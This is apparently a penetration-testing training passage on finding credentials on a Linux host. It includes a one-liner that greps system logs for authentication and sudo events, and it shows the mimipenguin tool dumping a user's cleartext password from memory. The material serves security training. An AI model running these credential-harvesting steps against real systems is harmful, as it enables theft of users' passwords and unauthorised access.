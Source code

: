 *  Application Logs 	
*  Event Logs 	
*  Service Logs 	
*  System Logs
*  

Many different logs exist on the system. These can vary depending on the applications installed, but here are some of the most important ones:

![image](https://user-images.githubusercontent.com/24814781/204114441-2758f131-c0e3-402d-b10e-d691d99090d8.png)

Covering the analysis of these log files in detail would be inefficient in this case. So at this point, we should familiarize ourselves with the individual logs, first examining them manually and understanding their formats. However, here are some strings we can use to find interesting content in the logs:

```
cry0l1t3@unixclient:~$ for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done

#### Log file:  /var/log/dpkg.log.1
2022-01-10 17:57:41 install libssh-dev:amd64 <none> 0.9.5-1+deb11u1
2022-01-10 17:57:41 status half-installed libssh-dev:amd64 0.9.5-1+deb11u1
2022-01-10 17:57:41 status unpacked libssh-dev:amd64 0.9.5-1+deb11u1 
2022-01-10 17:57:41 configure libssh-dev:amd64 0.9.5-1+deb11u1 <none> 
2022-01-10 17:57:41 status unpacked libssh-dev:amd64 0.9.5-1+deb11u1 
2022-01-10 17:57:41 status half-configured libssh-dev:amd64 0.9.5-1+deb11u1
2022-01-10 17:57:41 status installed libssh-dev:amd64 0.9.5-1+deb11u1

...SNIP...
```

## Memory and Cache

Many applications and processes work with credentials needed for authentication and store them either in memory or in files so that they can be reused. For example, it may be the system-required credentials for the logged-in users. Another example is the credentials stored in the browsers, which can also be read. In order to retrieve this type of information from Linux distributions, there is a tool called mimipenguin 
```
https://github.com/huntergregal/mimipenguin
```
that makes the whole process easier. However, this tool requires administrator/root permissions.

## Memory - Mimipenguin
```
cry0l1t3@unixclient:~$ sudo python3 mimipenguin.py
[sudo] password for cry0l1t3: 

[SYSTEM - GNOME]	cry0l1t3:WLpAEXFa0SbqOHY


cry0l1t3@unixclient:~$ sudo bash mimipenguin.sh 
[sudo] password for cry0l1t3: 

MimiPenguin Results:
[SYSTEM - GNOME]          cry0l1t3:WLpAEXFa0SbqOHY
```
